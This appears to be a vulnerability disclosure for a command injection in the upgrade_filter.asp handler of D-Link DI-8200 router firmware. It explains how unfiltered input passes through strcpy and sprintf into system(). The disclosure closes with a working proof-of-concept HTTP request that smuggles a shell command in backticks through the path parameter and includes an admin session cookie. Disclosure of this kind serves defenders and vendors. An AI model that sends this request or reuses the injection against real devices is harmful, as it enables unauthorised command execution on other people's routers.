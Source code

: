 Firmware version:

	DI_8200-16.07.26A1
	
Download address:

	http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8200)

Command injection:

	The upgrade_filter_asp function has command injection；
	The received request is sent to parm; And parm doesn't do any filtering;
	parm data is sent to v17 through strcpy, and then only "http://" is matched without any filtering；
	Splice to v16 through sprintf, and finally system(v16); Cause command injection;
	![[Pasted image 20240806103832.png]]

	Here is the FirmAE simulated firmware command injection process:

	![[Pasted image 20240806104833.png]]
	![[Pasted image 20240806104945.png]]

poc：

```
GET /upgrade_filter.asp?path=http://`ps%20%3E%20/rce.txt` HTTP/1.1

Host: 192.168.0.1

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: zh,en-US;q=0.9,en;q=0.8

Cookie: wys_userid=admin,wys_passwd=861A198CDBD425F0B9D91C42FAB93A86

Connection: close


```
